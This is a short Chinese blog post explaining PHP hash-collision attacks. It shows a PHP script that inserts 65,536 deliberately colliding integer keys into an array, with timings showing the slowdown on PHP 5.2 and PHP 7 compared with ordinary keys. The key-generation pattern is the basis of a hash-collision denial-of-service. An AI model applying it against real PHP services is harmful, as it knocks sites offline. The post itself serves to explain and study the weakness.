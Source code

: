 ```yaml
---
layout:     post
title:      "php哈希冲突攻击解析"
subtitle:   "哈希冲突攻击"
date:       2018-8-5
author:     "Lerko"
header-img: "img/post-bg-e2e-ux.jpg"
catalog: true
tags:
    - php内核
---
```


# php哈希冲突攻击解析

## 一段攻击代码

```php
<?php
$size = pow(2, 16);
 
$startTime = microtime(true);
$array = array();
for ($key = 0, $maxKey = ($size - 1) * $size; $key <= $maxKey; $key += $size) {
    $array[$key] = 0;
}
$endTime = microtime(true);
echo '插入 ', $size, ' 个恶意的元素需要 ', $endTime - $startTime, ' 秒', "\n";
 
$startTime = microtime(true);
$array = array();
for ($key = 0, $maxKey = $size - 1; $key <= $maxKey; ++$key) {
    $array[$key] = 0;
}
$endTime = microtime(true);
echo '插入 ', $size, ' 个普通元素需要 ', $endTime - $startTime, ' 秒', "\n";
```

插入结果

> php5(5.2)

```
插入 65536 个恶意的元素需要 79.778307914734 秒
插入 65536 个普通元素需要 0.028948068618774 秒
```

> php7

```
插入 65536 个恶意的元素需要 9.2177460193634 秒
插入 65536 个普通元素需要 0.004227876663208 秒
```
